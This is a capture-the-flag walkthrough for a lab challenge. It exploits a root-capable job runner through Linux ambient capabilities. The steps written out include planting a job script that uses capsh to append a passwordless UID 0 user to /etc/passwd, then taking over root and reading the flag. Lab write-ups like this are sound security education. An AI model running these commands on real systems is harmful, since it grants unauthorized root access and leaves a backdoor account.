







# Level 3 - Ambient Ambitions
---
**Category:** Foothold

**Points:** 700

**Difficulty:** Intermediate+

**Link:** https://breachlab.org/tracks/ghost/ii

## 📋 Description:
This challenge is about ambient capabilities. You will need to use them using a script that is run by a service to read the flag in /var/lib/ops/.flag.txt.

## 🛠️ Tools Used:
- ssh
- getpcaps
- capsh
- grep
- ps
- chmod

## 🚀 Solution:

### Step 1:
Checking /home/builder/kael.txt:
```bash
cat kael.txt
```


Alright... Let's decrypt this, so we can "write in the runner's work directory", this points to an automated service and we can write scripts to it. "The runner doesn't start clean" and "hands capabilities down to whatever it launches", this is a concept known as "Ambient and inheritable capabilities". 

We need to become the ops service account and the flag... Seems easy enough...

### Step 2:
First, let's see what the "runner" is, we'll check the process table for this.
```bash
ps aux
```


Two interesting information comes up, we have a sleep 30 and /usr/local/bin/hal-runner-loop that is running, this probably indicates that a script is running every 30 seconds.

Before anything, let's check what we can do with that program.
```bash
getpcaps 100
```

Alright! So we know what that means right? It means it has all capabilities in the existence of the universe.

In fact we can see this better using `grep`:  

Now, as we can see, it has literally every 41 of our possible capabilities to the max.

Now, let's see what the program actually does:
```bash
cat /usr/local/bin/hal-runner-loop
```


Alright! What's going on here?

So first we set classic explicit failures using `set -uo pipefail`, `-u` is for explicit failures when it comes to unbound variables, `-o pipefail` is well... For piplelines, you know "command_1 | command_2", this kind of thing. This is to prevent that the errors in those is masked. This is because as we see below, we have two pipelines for:

```bash
[ -f "${job}" ] && [ -x "${job}" ] || continue
/usr/local/bin/hal-runner-wrap "${job}" >/dev/null 2>&1 || true
```

Anyways, from the script we also get the jobs' running directory, which is in `/opt/hal-runner/jobs`, so everything we put in there gets executed by the `hal-runner-wrap`, cool.

So let's create our way to root exploiting those capabilities.

We could create a simple script that just gives us the flag... But that's no fun, let's root the machine instead.

### Step 3:
So let's craft our script...

What do we need? We want to get root.
How? We can use capsh to create a virtual shell to launch commands as root and create a user in /etc/passwd with UID 0 and GID 0, which is root.

What is the format of users in /etc/passwd? It's:
```bash
username:password:UID:GID:GECOS:home:shell
```

So we just create a root user without a password and we can log in as root.

Considering we don't have any text editor in this machine, we can use a simple trick to create our script using a here document:
```bash
cat << 'EOF' > /opt/hal-runner/jobs/exploit
#!/bin/bash
capsh --uid=0 -- -c "echo 'apex::0:0:root:/root:/bin/bash' >> /etc/passwd"
EOF
```

Then we just need to make it executable:
```bash
chmod 777 /opt/hal-runner/jobs/exploit
```

And now we wait. And after 30 seconds, we can log in as root:
```bash
su apex
```


There we go. We can now just reset the password for the actual root account (Or any user for that matter) and log in as root if we want to:
```bash
passwd root
```

We can then get the flag:
```bash
cat /var/lib/ops/.flag.txt
```


### Step 4:
Moved on to the [next level](../Level%204/).